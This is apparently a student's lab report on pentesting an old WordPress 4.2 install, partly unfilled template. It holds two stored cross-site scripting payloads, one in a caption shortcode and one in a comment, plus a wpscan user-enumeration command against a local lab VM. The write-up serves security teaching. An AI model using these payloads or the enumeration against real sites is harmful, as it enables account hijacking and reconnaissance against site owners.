



# Project 7 - WordPress Pentesting

Time spent: **4** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) WordPress <= 4.2.2 - Authenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.5
  - [ ] GIF Walkthrough: 
       - 
  - [ ] Steps to recreate: 
   - react a new page with name test
   - add code `<a href="[caption code=">]</a><a title=" onmouseover=alert('test') ">link</a>`
   - view page to see the alert
  - [ ] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress3.html)
2. (Required)User enumeration using wpscan
  - [ ] Summary: 
    - Vulnerability types:User enumeration
    - Tested in version:4.2
    - Fixed in version: 4.2.6
  - [ ] GIF Walkthrough: 
        - 
  - [ ] Steps to recreate:
     - Open Kall, in the terminal run: `wpscan --url http://wpdistillery.vm --enumerate u`
     - it shows the user info.
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/blob/4.2-branch/wp-login.php)
3. (Required) 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types:xss
    - Tested in version:4.2
    - Fixed in version: 4.2.6
  - [ ] GIF Walkthrough: 
     - 
  - [ ] Steps to recreate: 
    - leave comment `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAA...[64KB]...AAA>`
  - [ ] Affected source code:
    - [Link 1](https://klikki.fi/adv/wordpress2.html)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2020] [TANG YUEMIN]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
